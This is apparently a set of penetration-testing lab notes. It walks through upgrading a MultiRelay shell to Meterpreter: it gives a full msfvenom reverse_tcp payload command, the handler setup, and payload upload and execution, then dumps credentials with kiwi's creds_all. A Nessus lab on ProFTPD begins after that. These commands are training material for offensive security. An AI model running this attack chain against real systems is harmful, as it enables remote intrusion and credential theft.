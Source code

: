 ### Responder & MultiRelay - Video

Once successfully obtained a (limited) shell by using the MultiRelay tool, we can enhance it using Metasploit.
The MultiRelay tool allows to upload a file, so we can generate a Meterpreter payload using Metasploit Venom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o /root/data/payload.exe`.

`msfconsole`, `use exploit/multi/handler`: to use a special Metasploit module (the Metasploit Handler) for listening for incoming connections from the target machine, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 192.168.1.3`, `set LPORT 4444`, `exploit -j` where `-j` is used to execute the handler in the background.

Now we can upload (automatically into the `C:\windows\temp` directory) and execute the generated payload using MultiRelay shell: `upload /root/data/payload.exe`, `C:\windows\temp\payload.exe`.
Once executed the payload, we can see we have a Meterpreter shell.

We can interact with the Meterpreter shell: `sessions -i 1`, `load kiwi`: to load the kiwi extension, useful in this case to dump users credentials from the target, `creds_all`.

### VA and Exploitation - Lab

This lab will use Nessus to scan and perform vulnerability analysis of a multiple targets machine running a different vulnerable application.

This exercise will help you understand how to perform vulnerability scanning using Nessus/Nmap and exploit it using Metasploit Framework.

In this lab environment, the user will access a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali on:
- http://demo.ine.local
- http://demo2.ine.local
- http://demo3.ine.local
- http://demo4.ine.local

Objective: Perform a vulnerability scan on the target machine using Nessus and Nmap and exploit it!
Relevant Information:
- Username: admin
- Password: adminpasswd

The best tools for this lab are:
- Nessus
- A web browser
- Metasploit Framework
- Nmap

---

**Step 1**.

`firefox https://localhost:8834 &`.

`demo.ine.local, demo2.ine.local, demo3.ine.local, demo4.ine.local`, `Run Scan`.

This would start a Basic Network Scan by default.

However, we found a critical vulnerability in one host only (`demo.ine.local` i.e 192.XX.XX.3): "ProFTPD Compromised Source Packages Trojaned Distribution".
